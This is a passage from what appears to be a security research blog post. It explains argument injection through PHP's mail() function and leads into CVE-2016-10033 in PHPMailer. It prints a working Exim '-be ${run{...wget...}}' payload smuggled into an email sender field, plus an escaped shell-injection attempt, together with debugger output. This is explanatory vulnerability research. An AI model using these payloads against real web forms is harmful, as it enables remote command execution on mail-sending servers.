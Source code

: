 ```bash
Payload in emailFrom:
ss@email.com;wget http://127.0.0.1/test

Result catched by commanddebugger:
Received: /usr/sbin/sendmail
Received: -fss@email.com;wget
Received: http://127.0.0.1/test
```

As we can see,input is escaping shell characters, but is leaving the opportunity to add extra Arguments/Options to the sendmail binary. The escaping code is found also in mail.c C file:

php-7.1.6/ext/standard/mail.c:
```C
[...]

	if (force_extra_parameters) {
		extra_cmd = php_escape_shell_cmd(force_extra_parameters);
	} else if (extra_cmd) {
		extra_cmd = php_escape_shell_cmd(ZSTR_VAL(extra_cmd));
	}

[...]
```

Although mail() is not vulnerable to Command Injection, Argument Injection is one possiblity. The use of mail() wildy in other libraries/software without precaution will be hazarous. We can consider mail() a dangerous function and I have added it to [Research-Guide](http://www.afolgado.com/researchguide/).

To demostrate this, let's apply a working payload in the PHP mail function and see how it works (using our commandebugger bash scripts). Let's use the last payload from [PHP Argument Injection](http://www.afolgado.com/2017/06/10/phpcommandiargumenti/)), since we know is being escaped, let's use the working payload for the Argument Injection:

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}

Debugger output:
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com
Received: -be
Received: ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received:
Received:
```

As we can see this will perform correctly the Argument Injection over an uncontrolled PHP mail() function.


## CVE-2016-10033: The uncontrolled use of mail() by PHPMailer
